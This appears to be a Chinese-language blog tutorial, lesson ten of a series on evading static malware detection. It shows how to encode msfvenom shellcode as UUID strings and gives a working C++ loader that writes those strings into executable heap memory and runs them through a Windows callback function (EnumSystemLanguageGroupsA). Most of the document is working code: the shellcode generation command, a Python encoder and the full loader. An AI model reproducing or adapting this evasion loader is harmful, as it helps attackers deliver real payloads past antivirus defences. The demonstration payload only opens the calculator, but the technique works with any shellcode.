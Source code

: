 ```yaml
---
date: "2021-02-08T00:00:00Z"
description: 本节课，使用UUID的方式存储Shellcode，再介绍一些CALL BACK函数的特性来加载Shellcode。
title: 静态恶意代码逃逸（第十课）
url: /archivers/2021-02-08/1
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 UUID

通用唯一标识符（universally unique identifier, UUID）是一个128位的用于在计算机系统中以识别信息的数目。在Windows中也有使用GUID来标识唯一对象。 — 来源：[维基百科](https://en.wikipedia.org/wiki/Universally_unique_identifier)

关于Windows中的GUID也等同于UUID，先看一下结构：

```c++
typedef struct _GUID {
  unsigned long  Data1; // 4字节
  unsigned short Data2; // 2字节
  unsigned short Data3; // 2字节
  unsigned char  Data4[8]; // 8字节
} GUID;
```

总和一共16字节，16*8 = 128位。


## 0x02 与UUID相关的Windows API


```c++
RPC_STATUS UuidFromString(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

功能：将字符串UUID转换为UUID结构。

```c++
RPC_STATUS UuidCreate(
  UUID *Uuid
);
```

功能：创建UUID结构。

```c++
int UuidEqual(
  UUID       *Uuid1,
  UUID       *Uuid2,
  RPC_STATUS *Status
);
```

功能：判断两个UUID是否相等。

通过URL查看：https://docs.microsoft.com/en-us/windows/win32/rpc/rpcdce/ns-rpcdce-uuid

UUID 代表了 -> `typedef GUID UUID;`

## 0x03 UUID 测试

### 生成Shellcode

```
./msfvenom -p windows/exec CMD=calc.exe -b '\xfc\xe8' -f raw -o /tmp/shellcode.bin
```

### Bin2UUID

生成脚本：

```py
from uuid import UUID
import os
import sys

# Usage: python3 binToUUIDs.py shellcode.bin [--print]

print("""
  ____  _    _______    _    _ _    _ _____ _____       
 |  _ \(_)  |__   __|  | |  | | |  | |_   _|  __ \      
 | |_) |_ _ __ | | ___ | |  | | |  | | | | | |  | |___  
 |  _ <| | '_ \| |/ _ \| |  | | |  | | | | | |  | / __| 
 | |_) | | | | | | (_) | |__| | |__| |_| |_| |__| \__ \ 
 |____/|_|_| |_|_|\___/ \____/ \____/|_____|_____/|___/
\n""")

with open(sys.argv[1], "rb") as f:
    bin = f.read()

if len(sys.argv) > 2 and sys.argv[2] == "--print":
    outputMapping = True
else:
    outputMapping = False

offset = 0

print("Length of shellcode: {} bytes\n".format(len(bin)))

out = ""

while(offset < len(bin)):
    countOfBytesToConvert = len(bin[offset:])
    if countOfBytesToConvert < 16:
        ZerosToAdd = 16 - countOfBytesToConvert
        byteString = bin[offset:] + (b'\x00'* ZerosToAdd)
        uuid = UUID(bytes_le=byteString)
    else:
        byteString = bin[offset:offset+16]
        uuid = UUID(bytes_le=byteString)
    offset+=16

    out += "\"{}\",\n".format(uuid)
    
    if outputMapping:
        print("{} -> {}".format(byteString, uuid))

with open(sys.argv[1] + "UUIDs", "w") as f:
    f.write(out)

print("Outputted to: {}".format(sys.argv[1] + "UUIDs"))
```

![2021-02-08-20-41-08](https://images.payloads.online/ae1d7ed2-4f5f-11ec-be52-00d861bf4abb.png)

### 生成测试样本

```c++
#include <Windows.h>
#include <rpc.h>
#pragma comment(lib,"Rpcrt4.lib")

const char * buf[] = {
	"4baf01bd-dbdd-d9de-7424-f45a33c9b131",
	"83136a31-04c2-6a03-0e4d-be21f81341da",
	"3fcb73f8-b3c9-34af-7904-bb1975efe989",
	"bd259d0e-28a7-f010-3800-6093ba5bb573",
	"72c89383-cec4-2621-9d85-94d7aad02453",
	"802cf5e0-f4b0-171d-cbae-bd9918dbf781",
	"394ee67d-9cb5-eb50-845d-fed229acfe13",
	"6a754f8d-f2ee-a98e-8d28-1a2a35babc96",
	"5c5a6fc4-c4ca-3a28-cedb-fd30ea500097",
	"3327227b-f020-6246-8c57-76746f07d2fe",
	"5d6f5c9d-a3cb-dbfd-b9a4-fde3edcccc68",
	"bad08a62-64c7-e79b-61ed-4272307075a8",
	"59f68d76-6a06-2be6-0336-a0c0792745e7",
	"844c482e-dab1-650c-545b-b67900000000"
};


int main(int argc, char* argv[]) {

	int dwNum = sizeof(buf) / sizeof(buf[0]);

	HANDLE hMemory = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	if (hMemory == NULL) {
		return -1;
	}
	PVOID pMemory = HeapAlloc(hMemory, 0, 1024);
	
	DWORD_PTR CodePtr = (DWORD_PTR)pMemory;

	for (size_t i = 0; i < dwNum; i++)
	{
		if (CodePtr == NULL) {
			break;
		}
		RPC_STATUS	status = UuidFromStringA(RPC_CSTR(buf[i]), (UUID*)CodePtr);
		if (status != RPC_S_OK) {

			return -1;
		}
		CodePtr += 16;
	}

	if (pMemory == NULL) {
		return -1;
	}
	if (EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)pMemory, LGRPID_INSTALLED, NULL) == FALSE) {
		// 加载成功
		return 0;
	}
	return 0;
}
```


![2021-02-08-20-52-53](https://images.payloads.online/ae5cbe3a-4f5f-11ec-b376-00d861bf4abb.png)

## 0x04 Windows CALL BACK函数

CALL BACK意为回调，是定义一个函数，由系统某个事件或用户的动作自动触发的函数，因此调用者不是用户。

通过MSDN直接搜索Callback/Proc关键字就能发现一些回调函数：

![2021-02-08-20-59-11](https://images.payloads.online/ae914808-4f5f-11ec-bce4-00d861bf4abb.png)

例如：

```c++

HINTERNET hOpen;                       // Root HINTERNET handle
INTERNET_STATUS_CALLBACK iscCallback;  // Holds the callback function

// Create the root HINTERNET handle.
hOpen = InternetOpen( TEXT("Test Application"),
                      INTERNET_OPEN_TYPE_PRECONFIG,
                      NULL, NULL, 0);

// Set the status callback function.
iscCallback = InternetSetStatusCallback( hOpen, (INTERNET_STATUS_CALLBACK)CallMaster );

void CALLBACK CallMaster( HINTERNET,
    DWORD_PTR,
    DWORD,
    LPVOID,
    DWORD
);

```

如果CallMaster指向的是一块可执行属性的内存，那么就可以加载Shellcode。

这篇文章中介绍了如何发现其他带有回调的[Windows API](http://ropgadget.com/posts/abusing_win_functions.html)。


## 参考

- http://www.cn0sec.cn/index.php/archives/337/
- http://ropgadget.com/posts/abusing_win_functions.html
